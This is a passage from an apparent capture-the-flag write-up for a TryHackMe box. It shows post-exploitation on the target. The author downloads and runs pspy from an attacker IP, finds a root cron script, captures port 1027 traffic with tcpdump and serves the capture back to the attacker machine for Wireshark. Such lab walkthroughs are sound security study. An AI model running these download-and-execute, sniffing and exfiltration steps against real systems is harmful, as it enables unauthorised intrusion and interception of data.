 ```shell
www-data@incognito:/var/www/html$ wget http://10.9.0.253/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy;/tmp/pspy
[...]
2023/01/11 09:02:01 CMD: UID=0    PID=19229  | /usr/sbin/CRON -f 
2023/01/11 09:02:01 CMD: UID=0    PID=19232  | /bin/sh /root/req.sh 
2023/01/11 09:02:01 CMD: UID=0    PID=19231  | /bin/sh /root/req.sh 
2023/01/11 09:02:01 CMD: UID=0    PID=19230  | /bin/sh -c /root/req.sh 
[...]
2023/01/11 09:04:01 CMD: UID=0    PID=19239  | /bin/sh /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19238  | /bin/sh /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19237  | /bin/sh -c /root/req.sh 
2023/01/11 09:04:01 CMD: UID=0    PID=19236  | /usr/sbin/CRON -f
[...]
```

**Looks like every 2 minutes, `/root/req.sh` sh script will executed by root.** 

**Hmm... Let's try to sniff traffic in port 1027:**
```shell
www-data@incognito:/var/www/html$ tcpdump -i any -s 0 'tcp port 1027' -w /tmp/sniffing.cap
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes

```

**Then wait 2 minutes, and exit:**
```shell
www-data@incognito:/var/www/html$ tcpdump -i any -s 0 'tcp port 1027' -w /tmp/sniffing.cap
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C11 packets captured
22 packets received by filter
0 packets dropped by kernel
```

We've captured 11 packets!

**Let's transfer the captured packets!**
```shell
www-data@incognito:/var/www/html$ cd /tmp
www-data@incognito:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# wget http://$RHOSTS:8000/sniffing.cap
```

**After that, we can use WireShark to inspect those packets:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# wireshark sniffing.cap
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111042017.png)
